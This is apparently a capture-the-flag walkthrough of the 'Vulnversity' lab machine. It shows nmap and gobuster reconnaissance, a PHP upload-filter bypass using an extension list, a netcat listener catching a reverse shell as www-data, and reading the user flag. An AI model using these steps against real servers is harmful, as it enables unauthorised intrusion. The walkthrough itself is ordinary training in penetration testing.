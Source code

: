 # Vulnversity

## Reconnaissance

Scan the box, how many ports are open? 6

```
nmap -sV -n 10.10.123.163
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 13:21 CDT
Nmap scan report for 10.10.123.163
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```

What version of the squid proxy is running on the machine?

3.5.12

How many ports will nmap scan if the flag -p-400 was used?

400

Using the nmap flag -n what will it not resolve?

DNS

What is the most likely operating system this machine is running?

Ubuntu

What port is the web server running on?

3333

## Locating directories using GoBuster

What is the directory that has an upload form page? http://10.10.123.163/internal/

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.123.163:3333
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.163:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/17 13:34:03 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.123.163:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.123.163:3333/css/]   
/js                   (Status: 301) [Size: 318] [--> http://10.10.123.163:3333/js/]    
/fonts                (Status: 301) [Size: 321] [--> http://10.10.123.163:3333/fonts/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.123.163:3333/internal/]
```

### Compromise the server

Try upload a few file types to the server, what common extension seems to be blocked?

.php

```
nano phpext.txt

GNU nano 5.4                           
phpext.txt                                             
.php
.php3
.php4
.php5
.phtml

cat phpext.txt
.php
.php3
.php4
.php5
.phtml
```

Run this attack, what extension is allowed?


https://github.com/regtay/Vulnversity/blob/main/Images/Burpsuite%20View%20.png

https://github.com/regtay/Vulnversity/blob/main/Images/Rervereshell%20upload.png

https://github.com/regtay/Vulnversity/blob/main/Images/Upload%20.png



```
nc -lvnp 9001                                                                                   
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46740
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
16:31:25 up  1:56,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$

What is the name of the user who manages the webserver? bill

What is the user flag? 8bd7992fbe8a6a----------04cfcedb

```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.239.22] from (UNKNOWN) [10.10.123.163] 46752
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 16:34:23 up  1:59,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls /home
bill
$ ls /home/bill
user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6a----------04cfcedb
$
```

#### Privilege Escalation

On the system, search for all SUID files. What file stands out?

systemctl
